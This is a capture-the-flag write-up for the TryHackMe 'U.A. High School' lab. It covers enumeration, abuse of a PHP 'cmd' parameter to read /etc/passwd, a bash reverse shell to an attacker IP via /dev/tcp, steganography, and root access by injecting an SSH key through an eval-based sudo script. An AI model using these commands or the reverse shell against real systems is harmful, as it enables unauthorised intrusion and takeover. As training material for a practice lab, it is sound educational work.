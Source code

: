 # TryHackMe - U.A. High School

## Enumeration

We start with our nmap scan which just reveals an SSH and HTTP server running.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 07:00 EDT
Nmap scan report for 10.10.42.185
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```

We begin to enumerate the HTTP server by running feroxbuster which reveals the assets subdirectory.&#x20;

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Feroxbuster doesn't reveal any further details which is where we'll bring GoBuster in for the fine tuning, we'll configure our scan to search for specific file types which gives us a hit for "index.php"

```
gobuster dir -u 10.10.42.185/assets -w /usr/share/wordlists/dirb/common.txt -x php,txt,js,css,zip
```

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This just appears to be an empty PHP file to the client, but since PHP code is executed server side there may be something that is happening behind the scenes that we can't see. Curious to see if there is anything we can pass to this, we utilise wfuzz which should find any endpoints of usage, and we'll also specify the wordlist to be the "common.txt" wordlist which is stored in the following location, on a default Kali install.

```
/usr/share/seclists/Discovery/Web-Content/common.txt
```

We're going out on a limb and try to read the `/etc/passwd` file on the machine and we get a hit with the "cmd" parameter.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## Foothold

So we have code execution! Amazing, let's get a shell. We try a Netcat shell but don't appear to have a binary on the box, so decide to craft our own shell. We make a simple Bash reverse shell:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.8.61.246/9999 0>&1'
```

Run our first command to download the binary onto the box and store it in the tmp directory, which we can assume we have write access in.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We double check to ensure it's saved, which we can confirm through the output from the website, which is Base64 encoded.

<figure><img src=".gitbook/assets/0kDwX7EBOB.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/bl1M1Cq18Q.png" alt=""><figcaption></figcaption></figure>

We make our binary executable iwth `chmod +x /tmp/shell.sh` and then run it with `bash /tmp/shell.sh` which gets us a reverse shell as www-data.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

When on the box we find two images in the images folder that we'd found through our enumeration then begin working backwards, eventually finding another folder, "Hidden\_Content" in `/var/www` which we find another Base64 encoded flag in. Decoding it gives us some kind of password..

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## User

We remain curious about the images we found earlier so downlaod them onto the system and see whether there's some kind of Steganography in them. We find nothing of interest in "yuei.jpg" and find that "oneforall.jpg" isn't supported, which seems to imply there's something corrupt with the file. We inspect the structure of the file and see it's configured to be a PNG file, so correct with this with the appropriate file signature.

```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```

<figure><img src=".gitbook/assets/jttPqhkBeb.png" alt=""><figcaption></figcaption></figure>

We can see that our file changes from a "data" file to a complete JPEG file, indicating it is back to its restored state.

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We run steghide extract with our credentials and get "creds.txt"

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We take these creds and SSH into the box which gives us user!

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## Root

We run `sudo -l` and find a script that allows the user to input something to save to a file, but it's not sanitised properly so we can make this write to whatever file we want!

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

We run a POC by saving some random contents to a file then checking the permissions, and we see it's owned by root. Since we only have writing permissions our route for root here is to simply upload our own public SSH key and then SSH into the box.

We grab our public key and then run the script again, saving it into the default location where authorised keys should be stored...

<figure><img src=".gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

We attempt to SSH into the box which is successful and as such, gives us the box!

<figure><img src=".gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>
